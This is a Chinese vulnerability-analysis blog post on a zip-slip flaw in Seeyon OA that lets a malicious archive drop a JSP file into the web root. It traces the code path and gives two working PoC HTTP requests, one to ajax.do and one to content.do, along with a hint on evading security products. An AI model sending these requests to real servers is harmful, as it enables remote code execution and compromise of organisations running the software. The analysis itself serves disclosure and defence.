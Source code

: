 致远OA代码审计系列五-ofd解压漏洞分析
=====================

原创 作者:archive 公号:安全回忆录 发布时间:2023-12-04 0:00 发表于北京

原文地址：[致远OA代码审计系列五-ofd解压漏洞分析](https://mp.weixin.qq.com/s/_uaupYgj656gEaLhRSqmQA)

**漏洞描述:**

根据致远OA官方补丁定位到问题方法为OfdJavaZipUtil的unzip方法,未对压缩包内容进行任何检测, 存在zipslip漏洞,对压缩包内文件名使用../进行目录穿越, 解压jsp可执行文件到web目录。

******适用版本:******

V5/G6 V8.0SP2及以上全系列版本。

******漏洞分析:******

OfdJavaZipUtil的unzip方法中, 解压过程中未对压缩包文件进行任何校验, 通过全局搜索关键则发现GovdocGBManagerImpl的getOfdMetadata方法中对OfdJavaZipUtil.unizp进行了调用, 且GovdocGBManagerImpl可以直接通过ajax.do路由进行反访问,  漏洞整体的利用思路如下图:

**********![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPBQjYqicbWiceNNXyhicTaKHouiaV0fytGlSENYjErYltcQVLicsfdricS3KQ/640?wx_fmt=png&from=appmsg)**********

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPKlj99tAltwdWqUl8lwrq0UShGHFWEnB8NT35g70gMOOQR96iaOUblnA/640?wx_fmt=png&from=appmsg)

通过ajax.do路由调用GovdocGBManagerImpl类的getOfdMetadata方法, 最终进入到OfdJavaZipUtil的unzip. 完成不安全的解压, 但是还有一个前提, getOfdMetadata传入的是一个id参数, 解压压缩包必须保证当前文件存在, 否则直接返回null。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPoRyUo7MPrzxl4aAiaNyYictLjgDPWibK0JwfEyRX84WmR0PjY2ctqA1UQ/640?wx_fmt=png&from=appmsg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPeKLKjW60sEuBJWRGJiaPQDXvEGlncNFNbZ9TRRcwQJ6q1K4dOkcianOw/640?wx_fmt=png&from=appmsg)

getFile是通过数据库查询判断文件是否存在, 那么只需要找到一处上传点, 该上传需要将fileId记录到数据库中,但文件并未存储在数据库中, 是通过查询fileId定位到文件位置。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPkTnNsnN0Sltn4hlzMXUMWMmqEZwF3FBaweffEBaRyiavfg2AKXvGASA/640?wx_fmt=png&from=appmsg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPYrbBjgibCJjfxmIp0KonAIDlR0deW0QoFngk0Hsut1RjEKarliaruBeg/640?wx_fmt=png&from=appmsg)

直接搜索this.v3xFileDAO.save, 可以定位到多处上传点, 这里使用fileManager.uploadFiles, 在FileUploadController的processUpload方法中进行了调用,  整体的调用链如下:  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPfoDqhJ1KvyiaMmXib2EDict9wglUXtDkezSXNnDbhdTsDyCCPzQjzMAkg/640?wx_fmt=png&from=appmsg)

首先制作一个恶意的zip文件。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPic8p4UT9nraraExKkXhjgSVUBDsXibCZcqTdyDVk3Ra165GibhOtZ3DVA/640?wx_fmt=png&from=appmsg)

上传文件:  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPGJZyGicT8NI7LgDKpGwIs9w01bOh8XUvbmdeXxz86YicIZ5Is0T6UhEg/640?wx_fmt=png&from=appmsg)

解压文件:

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPib9o74E74N1pFia3sD0aYTIUEqiaNBb6Zf7Nx0G895PLj7DVjJ36U0x6g/640?wx_fmt=png&from=appmsg)

poc如下:

```http
POST /seeyon/ajax.do;Jsessionid=a?method=ajaxAction&managerName=govdocGBManager&rnd=29981 HTTP/1.1
Accept: */*
CSRFTOKEN: 
Host: 192.168.246.4
Connection: close
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0_321)
Cookie: JSESSIONID=1; avatarImageUrl=3003611276195810894; login_locale=zh_CN
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 63


arguments=["-7373142480696292225"]&managerMethod=getOfdMetadata
```

成功上传:

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPiaYgQiaHiciccicE4IHEckoE2Gc7LOcgqEmWian6ddoUSScnfexEe14e5p3g/640?wx_fmt=png&from=appmsg)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/8bCtiadxaTMuXje2bblic9NK6R3P5Q3MlPvcQO3EoQ9ibHHYjIWT81Yh3uNd8PiaFnmcbTuxEEylicGgVu5ZZjl5NlQ/640?wx_fmt=png&from=appmsg)

除了通过ajax.do调用, 网上还有师傅们通过MainbodyController的invokingForm方法进行调用, 但整体来说通过ajax.do路由调用方便且简单很多. 在一定条件下还可以配合requestCompress绕过相关安全产品防护。使用MainbodyController的poc如下:

```http
GET /seeyon/content/content.do?method=invokingForm&extensions=zip&isNew=1&ofdFileId=-3217079395985044654&subApp=2 HTTP/1.1
Accept: */*
CSRFTOKEN: 
Host: 192.168.246.4
Connection: close
User-Agent: Apache-HttpClient/4.5.13 (Java/1.8.0_321)
Cookie: JSESSIONID=1; avatarImageUrl=3003611276195810894; login_locale=zh_CN
Accept-Encoding: gzip, deflate

```

**总结:**

该漏洞属于典型的java zipslip漏洞, 在压缩包内文件名使用../将文件解压到任意目录,致远官方于2023-6月发布补丁修复该漏洞。